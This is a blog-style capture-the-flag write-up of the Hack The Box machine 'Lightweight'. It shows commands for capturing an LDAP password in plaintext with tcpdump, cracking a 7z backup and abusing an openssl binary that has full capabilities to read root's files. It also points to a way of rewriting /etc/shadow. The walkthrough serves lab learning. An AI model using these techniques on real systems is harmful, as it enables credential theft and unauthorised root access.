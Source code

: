 ```yaml
---
layout: post
title: HTB Lightweight
categories: hackthebox ldap openssl
---
```


I enjoyed Lightweight, as it was kind of a different box from what I've come across, especially in the user part.

Portscan:
Nmap showed three open ports, i.e. ssh, http and ldap
```
Nmap scan report for 10.10.10.119
Host is up (0.61s latency).
Not shown: 997 filtered ports
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 19:97:59:9a:15:fd:d2:ac:bd:84:73:c4:29:e9:2b:73 (RSA)
|   256 88:58:a1:cf:38:cd:2e:15:1d:2c:7f:72:06:a3:57:67 (ECDSA)
|_  256 31:6c:c1:eb:3b:28:0f:ad:d5:79:72:8f:f5:b5:49:db (EdDSA)
80/tcp  open  http    Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips mod_fcgid/2.3.9 PHP/5.4.16)
|_http-server-header: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips mod_fcgid/2.3.9 PHP/5.4.16
|_http-title: Lightweight slider evaluation page - slendr
389/tcp open  ldap    OpenLDAP 2.2.X - 2.3.X
| ssl-cert: Subject: commonName=lightweight.htb
| Subject Alternative Name: DNS:lightweight.htb, DNS:localhost, DNS:localhost.localdomain
| Not valid before: 2018-06-09T13:32:51
|_Not valid after:  2019-06-09T13:32:51
|_ssl-date: TLS randomness does not represent time
```

On port 80:

![index.html](../images/lightweight_index.png)

The user page prompt me to login via ssh with my IP as username and password. 

Enumerating the LDAP server didn't bring any useful info. After spending some time thinking about the next move, some people over at [0x00sec](https://0x00sec.org/) suggested capturing packets from the lo interface with *tcpdump*.
After "listening" to the box by running ``tcpdump -i lo -A -w inter.pcap`` I started browsing the website. The status.php was taking quite a time to load, so that was suspicious.

After browsing the website enough, I moved the pcap file to /tmp and transfered it to my local computer with ``scp 10.10.14.200@10.10.10.119:/tmp/inter.pcap .``

Opening the file with wireshark, we find that there is an ldap "bind request" from ldapuser2 with [simple authentication](https://ldapwiki.com/wiki/Simple%20Authentication), meaning that the ldapuser2's password was in plain sight.

![wireshark](../images/wireshark.png)

By using it as password, I used ``su`` to ldapuser2 and got the user flag.

```
su ldapuser2
Password: 
[ldapuser2@lightweight ~]$ ls
backup.7z  OpenLDAP-Admin-Guide.pdf  OpenLdap.pdf  user.txt
[ldapuser2@lightweight ~]$  cat user.txt
8a866d3b*******************
```

In ldapuser2's home directory we find a backup.7z file. I transferred it to my local machine like the pcap file only to find out that it was password protected. There I used a [script](https://gist.github.com/bcoles/421cc413d07cd9ba7855) I found, which uses john to brute-force the 7z file. The password was ```delete```

There I found some php files, which are the same from the website, only with a twist:
after running ``cat * | grep user`` in a desparate move for something valueable, I found that the user is ldapuser1, 

```
vict0ni@vict0niLaptop:~/Desktop/CTF/HTB/Lightweight/backup$ cat * | grep username
$username = 'ldapuser1';
```

so the next logical thing to do is to run ``cat * | grep password``, where we find the ldapuser1's password

```
vict0ni@vic0niLaptop:~/Desktop/CTF/HTB/Lightweight/backup$ cat * | grep password
$password = 'f3ca9d298a553da117442deeb6fa932d';
if ($bind=ldap_bind($ds, $dn, $password)) {
...
...
```

Escalating to ldapuser1, like previously with ldapuser2.

```
[ldapuser2@lightweight ~]$ su ldapuser1
Password: 
[ldapuser1@lightweight ldapuser2]$ whoami
ldapuser1
```

There, root got a bit spoiled to me, because some people where giving away clues inside the box. Specific, one broadcasted the message "openssl is the key". Kind of a bummer but finding two binaries on the home directory was meaning that the way for root had to do with one of them. So the spoil just saved me a rabbithole. But, please, **do not** spoil.

I enumerated the openssl binary I had in front of me. After examing it's capabilities with ``getcap -r openssl`` the output was ``openssl =ep``, which means that it had access to anything.

So to get the root.txt file, one must grab it with openssl, encrypt it and paste it in a directory, then decrypt it to read it, like ``/home/ldapuser1/openssl enc -base64 -in /root/root.txt -out enc_root`` and then ``base64 -d enc_root``.
And there is the *sweet* root flag :D

```
[ldapuser1@lightweight ~]$ /home/ldapuser1/openssl enc -base64 -in /root/root.txt -out enc_root
[ldapuser1@lightweight ~]$ base64 -d enc_root
f1d4e309c*******************
```

PS: "But if you don't get a shell and can't run code, is a system really owned?".
Searching for some way to get a root shell I came across [this](https://medium.com/@int0x33/day-44-linux-capabilities-privilege-escalation-via-openssl-with-selinux-enabled-and-enforced-74d2bec02099) article, where one can rewrite the /etc/shadow file.
